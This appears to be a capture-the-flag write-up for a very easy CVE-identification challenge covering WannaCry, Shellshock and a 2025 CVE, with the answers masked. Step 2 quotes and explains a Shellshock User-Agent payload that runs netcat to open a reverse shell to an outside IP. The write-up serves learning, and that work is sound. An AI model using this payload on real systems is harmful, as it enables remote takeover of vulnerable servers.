

# Notions - CVE - 2
---
**Category:** General Cybersecurity  
**Points:** 5  
**Difficulty:** Very Easy  

## 🛠️ Tools Used:
- NIST CVE Database

## 🚀 Solution:

### Step 1:
A security incident has just occurred on the company network! You are the only one with the skills to understand what is happening. To complete the challenge, answer the following questions.

A pop-up named "WanaDecrypt0r 2.0" has opened on user workstations! Provide the primary CVE identifier associated with this software.
```
Firstly, I assumed they were talking about the WannaCry ransomware attack, if you've been alive for more than 15 years at the time of writing this WriteUp, chances are you've probably seen this before:  
```

```
This is the WannaCry ransomware. One of the largest ransomware attack in history of ransomwares (Over 200k+ affected devices in more than 150 countries).

So anyways, long story short, I looked for the CVE number of the software using NIST CVE database and the CVE dictionary entry was the answer.
```
### Step 2:
On one of the Linux web servers, the following User-Agent is found in the Apache logs: `() { :;}; /bin/bash -c 'nc 9.9.9.9 6789 -e /bin/sh'`. What is the CVE identifier associated with this attack?
```
I instantly recognised the payload, particularly the first part "() { :;};" this was part of the shellshock family of known security bugs in bash which was a vulnerability discovered in september of 2014 and it enabled a malicious actor to have the ability to execute arbitrary commands and gain access to systems that used bash. 
```

Now, the above payload does the following:

> "`()`" creates an anonymous function with "{...}" as its content.  
> "`:`" is a built-in command that does absolutely nothing.  
> "`;`" terminates that command.  

So the whole thing is just defining a function to do absolutely nothing.

It's the python equivalent of:
```py
(lambda: None)()
```
```
Anyways, after that, we can see it ends the function definition with another ";" and then executes a bash shell.

"-c" means "execute whatever follows as a string". So here, we're executing "nc 9.9.9.9 6789 -e /bin/sh".

This one might appear complicated, but it really isn't 'nc' stands for the utility "netcat". The '9.9.9.9' is an attacker's IP address, '6789' is one of the ports open (presumably) on that IP addresss, '-e' is a parameter to execute the next given command, so here, we're opening up a reverse shell by connecting to the attack's IP on port 6789.

So I easily found the CVE on NIST:
> CVE-XXXX-XXXX
```

### Step 3
The identifier CVE-2025-54576 targets a specific software program; provide its name in lowercase.

Going on the page of the CVE gave me the answer directly:

```
> xxxxxxxxxxx